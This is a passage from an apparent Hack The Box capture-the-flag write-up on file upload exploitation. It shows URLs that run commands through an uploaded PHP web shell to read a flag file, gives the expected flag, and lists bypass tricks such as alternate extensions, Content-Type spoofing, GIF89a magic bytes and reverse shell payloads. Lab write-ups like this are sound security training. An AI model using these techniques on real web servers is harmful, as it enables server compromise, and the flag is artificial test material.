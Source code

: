 **Step 3: Execute Commands**
```bash
# Access: http://94.237.49.23:52640/uploads/shell.php?cmd=id
# Test command execution works

# Find flag: http://94.237.49.23:52640/uploads/shell.php?cmd=cat /flag.txt
```

**Expected Flag Format:**
```bash
HTB{f1l3_upl04d_4774ck5_4r3_d4ng3r0u5}
```

### Alternative Approaches

**If basic upload fails:**
1. **Try different extensions:** `.phtml`, `.php3`, `.php4`, `.php5`
2. **Modify Content-Type:** Change to `image/jpeg` while keeping PHP content
3. **Add magic bytes:** Prepend `GIF89a` to PHP code
4. **Use reverse shell:** Deploy pentestmonkey or msfvenom payload

This comprehensive approach to upload exploitation provides the foundation for compromising web applications through file upload vulnerabilities, leading to full server compromise through web shells or reverse shells.

